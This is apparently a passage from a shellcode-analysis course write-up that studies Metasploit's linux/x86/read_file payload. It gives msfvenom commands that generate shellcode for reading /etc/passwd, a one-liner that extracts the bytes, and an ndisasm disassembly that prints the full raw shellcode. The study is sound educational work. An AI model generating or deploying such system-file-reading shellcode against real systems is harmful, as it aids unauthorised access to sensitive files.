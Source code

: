 ### Check options
```
msfvenom -p linux/x86/read_file --list-options
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/1.png)

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/2.png)


There are 3 basic options:

- FD: The file descriptor to write output to (Required). Default: 1
- PATH: The file path to read (Required)


For this study we will use the basic options:

```bash
msfvenom -p linux/x86/read_file FD=1 PATH=/etc/passwd --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/read_file --platform=Linux -a x86 -f c FD=1 PATH=/etc/passwd | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

Using it, we get the shellcode we will use for the study of the payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/3.png)


### Libemu

Libemu does not show any output in this case:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/read_file/4.png)

When the PNG picture is generated it is empty.


### Ndisasm

With ndisasm it is possible to get the .nasm code using:

```bash
msfvenom -p linux/x86/read_file --platform=Linux -a x86 -f raw FD=1 PATH=/etc/passwd | ndisasm -u -
```


Or a little quicker:

```bash
echo -ne "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```
